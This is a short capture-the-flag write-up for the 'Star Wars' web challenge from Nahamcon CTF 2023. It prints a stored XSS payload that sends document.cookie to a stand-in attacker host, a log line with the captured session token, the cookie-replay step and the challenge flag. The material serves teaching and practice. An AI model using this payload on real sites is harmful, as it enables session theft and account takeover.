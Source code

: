 ```yaml
---
name: Star Wars (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Star Wars (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Star Wars

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=18 "Nahamcon CTF 2023: Star Wars (Web)")

## Description

> If you love Star Wars as much as I do you need to check out this blog!

## Solution

Can't create an account or sign up as admin.

Register as `cat` and find a guestbook, provide XSS payload to steal cookie.

{% code overflow="wrap" %}
```html
<script>
    new Image().src =
        "http://ATTACKER_SERVER.ngrok-free.app?c=" + document.cookie;
</script>
```
{% endcode %}

Request is made to our server containing cookies, including a [JWT](https://youtu.be/GIq3naOLrTg)

{% code overflow="wrap" %}
```bash
127.0.0.1 - - [15/Jun/2023 23:09:24] "GET /?c=ss_cvr=3ad69c49-d9aa-4fb0-b6f1-5c38324adf3b|1686862282337|1686862282337|1686862282337|1;%20x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE HTTP/1.1" 200 -
```
{% endcode %}

We replace the session cookie with `eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE` and receive a flag!

Flag: `flag{a538c88890d45a382e44dfd00296a99b}`
